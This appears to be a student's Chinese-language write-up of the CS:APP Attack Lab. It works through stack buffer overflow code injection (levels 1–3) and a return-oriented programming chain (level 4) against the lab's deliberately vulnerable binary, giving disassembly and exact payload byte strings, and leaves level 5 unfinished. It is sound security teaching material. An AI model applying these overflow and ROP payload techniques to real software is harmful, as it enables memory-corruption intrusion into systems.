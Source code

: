 #	Attack Lab

##	Code Injecting Attacks

###	Level 1

需要注入的代码

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit.  Getbuf returned 0x%x\n", val);
}
```

很明显针对`getbuf（）`进行注入攻击。

`getbuf（）`汇编

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

我们可以利用滑步修改getbuf的返回地址为Touch1的地址。

Touch1的地址

```assembly
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

所以我们的字符串即为：

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00  #touch1 函数的地址，注意在x86是小端系统 
```

结果

![1556783646931](assets/1556783646931.png)

###	Level 2

需要攻击的代码还是如上的text函数，只不过这次要运行touch2函数

```c
void touch2(unsigned val)
{
    vlevel = 2;
    if(val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }else{
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(2);
}
```

其实和Level 类似，只不过是针对缓存区进行攻击，除了注入函数地址外，还要注入参数。

touch2地址

```assembly
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,00%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

`Cookie = 0x59b997fa`

所以注入的汇编代码为

```assembly
mov $0x59b997fa, %rdi  	#设置变量
push $0x4017ec			#返回地址
ret
```

对于二进制码为

```assembly
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

通过断点，找到这段代码的地址为0x5561dc78

所以最后我们的注入代码为

```assembly
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

结果为

![1556786242718](assets/1556786242718.png)

###	Level 3

需要注入的代码

```c
void touch3(char *sval)
{
    vlevel = 3;
    if(hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    }else{
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

本题类似Level2，但是需要注意的是采用字符串比较，使用间接应用，应将cookie放在栈中较为安全的位置，使得注入攻击发动后，字符不会被覆盖，由栈的特点和system 5函数调用标准，在注入地址后面追加cookie就不会被覆盖。

先找到test返回地址所在位置。

![1556787385588](assets/1556787385588.png)

为0x5561dcb0

所以注入的cookie的地址为0x5561dca8（0x5561dcb0 - 8 bytes），

所以注入的代码为

```assembly
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00  
35 39 62 39 39 37 66 61  # cookie asicc 表示
```

结果

![1556790505565](assets/1556790505565.png)

##	Return-Oriented Programming Attacks

###	Level 4

与level 2 类似，但是这次要求使用程序原有的代码进行攻击。

我们需要的指令为

```assembly
popq	%rax
mov		%rax,	%rdi
```

查找汇编，指令一对应的地址为

```assembly
0x4019ab
```

指令二对应的地址为

```assembly
0x4019c5
```

所以注入的代码为

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
AB 19 40 00 00 00 00 00
FA 97 B9 59 00 00 00 00
C5 19 40 00 00 00 00 00
EC 17 40 00 00 00 00 00
```

结果：

![1556794093919](assets/1556794093919.png)

需要说明的是，不使用用%rax，使用别的寄存器也是可以完成攻击的。但是由于SYSTEM Ⅴ的调用规则，别的寄存器内容在调用时可能会被覆盖。而此处，%rax是用来存放返回值的。

###	Level 5

与level 3类似。

注入的字符串结构组织

```assembly
溢出区
gadgetk 地址
.......
.......
touch3 地址
cookie
```

大致知道怎么做，但是好麻烦。（留着以后写，如果以后我还能想起来的话）
